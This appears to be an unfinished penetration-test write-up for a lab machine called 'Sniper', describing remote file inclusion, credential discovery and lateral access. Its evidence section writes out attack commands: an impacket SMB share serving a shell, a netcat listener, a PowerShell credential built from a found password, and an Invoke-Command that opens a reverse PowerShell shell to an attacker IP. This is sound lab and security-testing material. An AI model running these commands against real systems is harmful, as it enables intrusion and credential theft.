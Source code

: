 
# Executive Summary – Sniper 
A vulnerability was discovered in the web application that allows the server to reveal and access files it should keep private. During testing, this weakness allowed the application to retrieve files from web server, which in turn lead to server downloading file that enabled tester to gain access to sever. This then exposed sensitive information such as user credentials. These credentials were then used to access a local account on the server. Because the exposed credentials could potentially be reused across other systems, this creates a credible risk for an attacker to move laterally within the network and gain access to additional systems or sensitive data.

# Remote File Inclusision 

## Description
To do 


## Impact 
High. The vulnerability allowed disclosure of confidential information (including cleartext credentials and user identifiers) via file inclusion. Those credentials were validated against a host account, enabling account takeover of a local user. With valid credentials and file‑disclosure capability, an attacker could perform lateral movement, access sensitive data, and — in worst‑case scenarios — achieve remote command execution on other systems. This has direct consequences for confidentiality, integrity, and availability of the affected environment.

## Likelihood:
The filename-construction pattern (user_input + extensions → blog-es.php) is a well-known indicator that testers and attackers will probe for Local File Inclusion (LFI). Because the application builds filenames from user-controlled input, the probability that an attacker can manipulate this to read arbitrary local files is high unless the input is strictly validated or mapped to a whitelist.


## Evidence:

1. Turn on Bupr Suite and suite and change to a known windows location. As you can see we have exposure of file. 
    <img src="images/LFI-test.png" alt="LFI test">

2. Turn Public folder into SMB and upload Remote Code Execution shell 
    impacket-smbserver -smb2support SMB1 /home/franky/Public 
3. Create reverse shell and upload file to smb folder
4. Start Netcat `nc -lvnp 1234`
5. Upload file to server 
    <img src="images/smb-upload.png" alt="smb upload">
6. Look for files on server and will find a password 
<img src="images/password.png" alt="password found">
7. Change dirctory to C:\Users to find other user Chris 
8. Creates a PSCredential for SNIPER\Chris using password we found and uses it to remote machine SNIPER as Chris. 

`$pass = "36mEAhz/B8xQ~2VM"`

`$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force`

`$cred = New-Object  System.Management.Automation.PSCredential("SNIPER\\Chris", $pass)`

Check to see if it was successful 

`Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {whoami} `

9. Run netcat from an SMB share on SNIPER (authenticating as $cred) to create a reverse PowerShell shell back to our machine as Chris. 

` Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {\\10.10.16.34\smb1\nce.exe 10.10.16.34 9001 -e powershell}`

Note: If have issues use Test-Path to see if issue with acessing SMB 

<img src="images/rce-chris.png" alt="rce chris">

Have access to the user Chris terminal  

<img src="images/chris.png" alt="chris">






